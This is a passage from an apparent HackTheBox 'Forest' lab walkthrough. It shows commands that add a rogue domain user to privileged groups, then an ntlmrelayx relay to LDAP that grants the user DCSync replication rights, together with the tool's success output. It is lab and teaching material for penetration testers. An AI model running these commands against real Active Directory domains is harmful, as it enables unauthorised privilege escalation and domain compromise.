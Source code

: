 
So here I took an easier route. However, BloodHound clearly mentions that this is bad from an OPSEC perspective.
Noob from this article shows another option to add a user.
https://noobintheshell.medium.com/htb-forest-43aaf12f44b1#5216
```
*Evil-WinRM* PS C:\> dsadd user "cn=noob,cn=users,dc=htb,dc=local" -samid noob -upn noob@htb.local -disabled no -pwd noobnoob -mustchpwd no
*Evil-WinRM* PS C:\> dsmod group 'CN=remote management users,CN=builtin,DC=htb,DC=local' -addmbr 'cn=noob,cn=users,dc=htb,dc=local'
*Evil-WinRM* PS C:\> dsmod group 'CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local' -addmbr 'cn=noob,cn=users,dc=htb,dc=local'

```

Once the user scriptkiddie is added, it is time to launch MITM attack using ntlmrelayx. 
NTLMrelayx will add Replication-Get-Changes-All privileges to the user account. 


### 2.6.1. Pass the Hash

On Screen 1, I setup MITM attack with ntlmrelayx. This tool will look for a user "scriptkiddie". This session will modify the user's privilege when a log-in attempt is observed. 
On screen 2, I attempt to log in with whatever. 


```
Then from my kali screen 1
impacket-ntlmrelayx -t ldap://10.10.10.161 --escalate-user scriptkiddie


From my kali screen 2
└─$ impacket-psexec forest.htb/scriptkiddie:scriptkiddie@10.10.16.9            



my kali screen 1 will say
┌──(kali㉿kali)-[~/HTB/Forest]                              
└─$ impacket-ntlmrelayx -t ldap://10.10.10.161 --escalate-user scriptkiddie
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
                                                            
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..    
[*] Protocol Client LDAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.16.9, attacking target ldap://10.10.10.161
[*] Authenticating against ldap://10.10.10.161 as FOREST.HTB/SCRIPTKIDDIE SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User scriptkiddie now has Replication-Get-Changes-All privileges on the domain
```